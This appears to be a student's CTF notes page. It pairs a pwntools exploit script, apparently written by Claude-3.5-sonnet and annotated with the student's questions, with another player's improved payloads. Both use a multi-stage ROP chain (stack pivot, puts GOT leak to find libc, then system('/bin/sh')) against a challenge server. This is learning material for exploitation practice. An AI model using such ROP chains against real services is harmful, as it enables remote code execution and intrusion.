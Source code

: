 # Claude-3.5-sonnet's script that got into shell but commands cannot be run normally

```py
#!/usr/bin/env python3 
from pwn import * 

# Setup binary
elf = ELF("program") # what is an elf and what does it do in this context?
rop = ROP(elf) # I know what is an ROP chain but what does a rop object here, what does it do?
libc = ELF("./libc") # what if no libc is provided?
# Settings
context.binary = "./program" # ?? again don't know what this do, no clue at all
context.log_level = 'debug' # ?? again don't know what this do, no clue at all 

r = remote("chal.firebird.sh", 35047) 

# Gadgets
# where are these addresses located? I guess not in the program? Because there's no instruction address that goes both `leave` and `ret` simultaneously 
pop_rdi = 0x400a33  # pop rdi instruction address, ROPgadget --all --binary <program> | grep <instruction>
leave_ret = 0x400868 # leave ; ret instruction address, ROPgadget --all --binary <program> | grep <instruction>

# BSS addresses for our fake stacks
# what's a .bss section exactly? Just curious, I forgot
buf1 = elf.bss() + 0x800
buf2 = elf.bss() + 0x700

# Stage 1: Pass the first read in main
r.recvuntil(b"Write some words on the top right corner of the wall:")
r.sendline(b"A" * 8)

# Stage 2: First ROP chain, these are written in the stack frame of my_read function?
payload = flat(
	b'A' * 48,        # Fill buffer, up to rbp. 
	buf1,             # New rbp for leave;ret. Address is elf.bss() + 0x800
	pop_rdi,          # ROP chain starts. Pop buf1 (right below it) as 1st argument into next `my_read` function
	buf1,             # Argument for my_read
	elf.sym['my_read'],  # Read next stage. Wait for input again I guess?
	leave_ret         # Migrate stack to buf1
)

# Wait for the second prompt
r.recvuntil(b"Write some words right in the center of the wall with GREAT care:")
r.sendline(payload)

# Stage 3: Second ROP chain, these are written in the stack frame of buf1?
payload2 = flat(
	buf2,             # Next fake stack frame
	pop_rdi,          # Setup puts(got.puts)
	elf.got['puts'],
	elf.plt['puts'],
	# Read next payload into buf2
	pop_rdi,
	buf2,
	elf.sym['my_read'],
	leave_ret         # Migrate to buf2
)

r.sendline(payload2)

# Get puts leak and calculate libc base
#puts_leak = u64(r.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) # what is this?
#log.info(f'Puts leak: {hex(puts_leak)}') # what is this?

puts = int.from_bytes(r.recvuntil(b'\x7f'), 'little') # what is this?

puts_offset = libc.sym['puts'] # offset of puts function from base, # what if no libc is provided?
libc.address = puts - puts_offset # libc base address. # what if no libc is provided?

log.info(hex(libc.address)) # what if no libc is provided?

pause()  # Add pause to check leak

# Stage 4: Final ROP chain, , these are written in the stack frame of buf2?
payload3 = flat(
	b'A' * 8,         # Padding
	pop_rdi,
	#puts_leak + 0x13000,  # /bin/sh offset (adjust after leak)
	#puts_leak - 0x80970   # system offset (adjust after leak)
	#pop_rdi,
	next(libc.search(b'/bin/sh')), # what is this? # what if no libc is provided?

	libc.sym['system'] # I now this calls system() to get the shell but what is sym? # what if no libc is provided?
)

r.sendline(payload3)
r.interactive()


```


atopos' idea

- I send 3 payloads in total 
first we can use the `pop rsi; pop r15; ret`  gadget for modifying rsi // why modify rsi and why `pop rsi` is followed by `pop r15`?  

- using `pop rdi; ret` gadget for modifying rdi
- then can use my_read func to read a string
- The first payload for creating a space for later payloads
- the second payload for getting the address of 'puts' and creating another space for the third payload
- the third payload for writing '\bin\sh' into rsi and call system()
and remember align the stack before calling system() // what is stack aligning? what does it do in this case?

- first payload here need to be split into two part otherwise there is no enough space
- oh i forget, payload1 is inputted through input twice
- cause the space of the two string the application ask to input is close
```
r.send(payload1[-0x30:].ljust(0x30, b'A'))
r.recvuntil(b'Write some words right in the center of the wall with GREAT care:\n')
r.send(payload1[:0x60].ljust(0x60, b'A'))
```
- i use this way to send payload1. The length of my payload1 is just the max length of payload that can be inputted
```py
payload1 = flat(
    b'A' * 48,
    payload2_buf_addr,

    rsi_r15_ret_gadget,
    88, # length of payload2
    0,
    rdi_ret_gadget,
    payload2_buf_addr,
    elf.sym['my_read'],

    lev_ret_addr
)

payload2 = flat(
    payload3_buf_addr,

    rdi_ret_addr,
    elf.got['puts'],
    elf.plt['puts'],

    rsi_r15_ret_addr,
    40, # length of payload3
    0,
    rdi_ret_addr,
    payload3_buf_addr,
    elf.sym['my_read'],

    lev_ret_addr
)

payload3 = flat(
    b'A' * 8,

    ret_addr, # for stack align

    rdi_ret_addr,
    addr_libc_bin_sh,
    addr_libc_system
)
```